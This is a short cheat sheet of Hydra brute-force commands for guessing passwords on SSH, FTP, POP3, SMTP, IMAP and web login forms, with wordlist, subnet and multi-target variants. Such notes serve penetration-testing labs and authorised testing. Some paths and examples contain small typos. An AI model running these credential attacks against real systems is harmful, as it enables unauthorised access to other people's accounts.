 

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.15`

OR

`hydra -L user.txt -p password123 ssh://10.1.1.2`

OR both!

`hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
`

OR

```
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```
OR

```
hydra -L etcpwdusers.txt -e nsr 192.168.111.100 ssh
```

### FTP Brute Force:
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V
```
### POP3 Brute Force:
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V
```
### SMTP Brute Force:
```
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```
Use -t to limit concurrent connections, example: -t 15
### Web Login Form:
```
hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.129.35.106 http-get /manager/html
```

### SSH:
```
hydra -l root -p admin 192.168.1.105 -t 4 ssh
```
